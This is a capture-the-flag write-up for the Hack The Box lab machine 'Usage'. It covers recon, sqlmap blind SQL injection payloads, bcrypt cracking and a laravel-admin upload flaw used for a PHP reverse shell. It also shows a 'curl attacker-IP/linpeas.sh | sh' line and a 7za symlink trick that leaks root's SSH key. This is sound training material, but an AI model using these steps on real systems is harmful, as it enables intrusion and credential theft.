




<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Usage</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap - Directory Busting

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.18
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 05:14 EDT
Nmap scan report for 10.10.11.18
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.79 seconds
```

Visiting the website, we find `/login`, `/register`, `/forget-password` (for password reset using email) and `admin.usage.htb`.\
Nothing else seems to be coming up with `gobuster` and `ffuf`.

We will also try some (sub)directory fuzzing.
```bash
$ gobuster dir -u http://usage.htb -w /usr/share/wordlists/dirb/big.txt -s '200' -b ''
$ gobuster dir -u http://usage.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -s '200' -b ''
```

```bash
$ ffuf -u http://usage.htb/ -H 'Host: FUZZ.usage.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://usage.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.usage.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

admin                   [Status: 200, Size: 3304, Words: 493, Lines: 89, Duration: 97ms]
:: Progress: [114441/114441] :: Job [1/1] :: 573 req/sec :: Duration: [0:03:26] :: Errors: 0 ::
```

## Analyzing website and requests

We try to register and user and login, after which we access the `/dashboard` page.\
On it we see 4 small paragraphs of some blogs about pentesting, and one of them mentions `Laravel PHP`.

Indeed when looking at our requests we see 2 cookies `XSRF-TOKEN` and `laravel_session`.\
Also, during login there are 3 values being sent, `_token`, `email`, and `password`.

We will check if any of the page with input boxes is vulnerable to sql injection.\
Adding a `'` in any of the inputs of `/post-login` or `/post-registration` results in `419 unknown status`, **but** when we do that on `/forget-password` we get a `500 Internal Server Error`.

## SQL Injection

We add the request in a txt file, and run `sqlmap`:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --dbs --level 5 --risk 3 --batch
...
sqlmap identified the following injection point(s) with a total of 740 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=csszyTMQIL1fY2dsFuO25CQWYd9CEYnH5wHz16Yb&email=a@a.com' AND 6504=(SELECT (CASE WHEN (6504=6504) THEN 6504 ELSE (SELECT 5254 UNION SELECT 5401) END))-- WGhl

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=csszyTMQIL1fY2dsFuO25CQWYd9CEYnH5wHz16Yb&email=a@a.com' AND 1039=BENCHMARK(5000000,MD5(0x4a704a66))-- ARgM
---
...
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL < 5.0.12
...
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

Now we know that it is vulnerable to sql injection, and that it is a `MySQL` database with one named `usage_blog`.\
We will try to find any tables:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --level 5 --risk 3 --batch -D usage_blog –tables
...
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
...
```

We will now look for columns in table `admin_users`:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --level 5 --risk 3 --batch -T admin_users –columns
...
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| name           | varchar(255) |
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) |
+----------------+--------------+
...
```

We can now try to get some data from the table:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --level 5 --risk 3 --batch -T admin_users -C name,username,password –dump
```
We found 1 entry, with username `admin`, and a hashed password.

## Getting admin access

The hashed password we got starts with `$2y$`, and looking online we see that it is a `bcrypt hash in modular crypt format`, and corresponds to mode `3200` in hashcat:
```bash
$ hashcat -m 3200 -a 0 -o cracked.txt bcrypt_hash.txt /usr/share/wordlists/rockyou.txt
```

Now we will try to get in as admin in `admin.usage.htb`.

On the Dashboard we find `PHP/8.1.2-1ubuntu2.14`, `Laravel version 10.18.0` and some dependencies:
|   |   |
|---|---
| php | ^8.1
| encore/laravel-admin | 1.8.18
| guzzlehttp/guzzle | ^7.2
| laravel/framework | ^10.10
| laravel/sanctum | ^3.2
| laravel/tinker | ^2.8

We also find `/admin/auth/setting`:


Looking online, we find `CVE-2023-24249`:
> encore/laravel-admin is an administrative interface builder for laravel \
Affected versions of this package are vulnerable to Arbitrary Code Execution due to unrestricted file uploads via the "user settings" interface. Users can upload and execute .php scripts on the affected server.

Knowing that, we can try using the file upload option in the settings to get reverse shell.\
We will be using [pentestmonkey's reverse shell implemetation](https://github.com/pentestmonkey/php-reverse-shell).





## User dash - user flag

We can find the user flag at `/home/dash/user.txt`.

We will try to use `linpeas`.\
On Attacker:
```bash
$ sudo python3 -m http.server 80
```
On Victim:
```bash
dash@usage:/$ curl 10.10.14.82/linpeas.sh | sh
```

We see there are some weird hidden files in our user's home directory:\


There we find these:
```bash
dash@usage:~$ ls -a                                                            
ls -a
.              .bashrc  .gnupg     .monit.pid    .mysql_history  snap
..             .cache   .local     .monit.state  .profile        user.txt
.bash_history  .config  .monit.id  .monitrc      .ssh
```

In `.monitrc` we find something interesting:
```bash
dash@usage:~$ cat .monitrc
cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

We now have some password, which might correspond to one of the users.\
Earlier, when looking for the user flag, I noticed there is an other user called `xander`.

## User xander - root flag

Indeed we can switch to user `xander` with the found password!

```bash
xander@usage:~$ sudo -l
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

```bash
xander@usage:~$ strings /usr/bin/usage_management
...
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
...
```

Looking up 7za exploit, I found [this article from hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z) which looks to be exactly what we need.


```bash
xander@usage:~$ cd /var/www/html
xander@usage:/var/www/html$ touch @temp.txt
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa temp.txt
```

Now we will run `/usr/bin/usage_management`, with option `1`.

```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
...
```

From that we can get root's private key, copy it on our own machine and connect through ssh.

```bash
$ chmod 600 id_rsa
$ ssh root@usage.htb -i id_rsa
```

And now we can get the root flag!
